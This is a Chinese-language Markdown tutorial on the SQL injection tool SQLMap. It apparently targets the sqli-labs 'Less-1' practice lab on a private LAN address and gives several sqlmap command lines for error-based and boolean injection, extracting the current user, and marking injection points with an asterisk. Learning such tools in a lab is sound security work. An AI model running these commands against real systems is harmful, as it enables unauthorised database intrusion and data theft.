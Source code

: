 # SQLMap使用
## <font color = #1E90FF>SQLMap准备工作</font>
### <font color = #FF0000>更新方法</font><BR>
- **Linux**
```
sqlmap --update
```
- **windows**
    - **可直接github下载覆盖目录**

### <font color = #FF0000>SQLMap的conf</font><BR>
</figure>
     <figure class="thumbnails">
        <img src="picture/sqlmap/SQLMap1.png">
</figure>

```
Sqlmap.py -v 3 -u http://192.168.2.149:86/Less-1/?id=1 --user-argent=websecurity --threads=5 -p id --level 3 --technique=E --current-user --flush-session --beep
```
- **傻瓜式注入**
    - **傻瓜式和参数配置都能进行注入，那么一定有一个配置文件来支撑傻瓜式注入<BR>可以看出已经跑出来了**
    ```
    Sqlmap.py -u http://192.168.2.149:86/Less-1/?id=1
    ```
    </figure>
     <figure class="thumbnails">
    <img src="picture/sqlmap/SQLMap2.png">
    </figure>

### <font color = #FF0000>SQLMap注入流程</font><BR>
</figure>
     <figure class="thumbnails">
        <img src="picture/sqlmap/SQLMap3.png">
</figure>

- **常用选项**
</figure>
     <figure class="thumbnails">
        <img src="picture/sqlmap/SQLMap4.png">
</figure>

### <font color = #FF0000>\*号的误区</font><BR>
- **需要用到星号的时候:**
    - __1.url中的值，sqlmap默认不注入，需要*号指定__
    - __2.json格式，sqlmap会变傻，需要*号进行__
    - __3.在默认level（1）时，可以使用*号对特定的请求头做注入__
    ```
    sqlmap -v 0 -u http://192.168.2.149:86/Less-1/?id= *1 --proxy=http://192.168.2.149:86 --flush-session --batch --technique=B

    sqlmap -v 0 -u http://192.168.2.149:86/Less-1/?id= 1*  --proxy=http://192.168.2.149:86 --flush-session --batch --technique=B
    ```
